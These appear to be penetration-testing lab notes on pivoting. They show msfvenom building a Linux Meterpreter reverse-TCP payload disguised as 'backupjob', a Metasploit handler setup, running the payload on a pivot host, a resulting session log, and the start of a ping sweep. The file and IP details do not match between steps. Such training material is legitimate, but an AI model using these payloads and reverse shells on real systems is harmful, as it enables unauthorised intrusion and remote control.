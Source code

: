 
### Create payload for a pivot host

```python
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.252 -f elf -o backupjob LPORT=8080
```

### Configuring & Starting the multi/handler

```python
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

>[!note] Copy the `backupjob` binary file to the Ubuntu pivot host `over SSH` and > execute it to gain a Meterpreter session.

### Execute payload on pivot host

```python
chmod +x backupjob 
```

```python
./backup
```

NOTE: Upon execution, ensure the metepreter session is fully established

### Meterpeter Session Establishment

```python
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd
/home/ubuntu
```

### Ping Sweep

**Facts**

- Windows target is on the 172.16.5.0/23 network
- Windows firewall is allowing ICMP requests
- Meterpeter's `ping_sweep` module can generate ICMP traffic from the Ubuntu host to the network

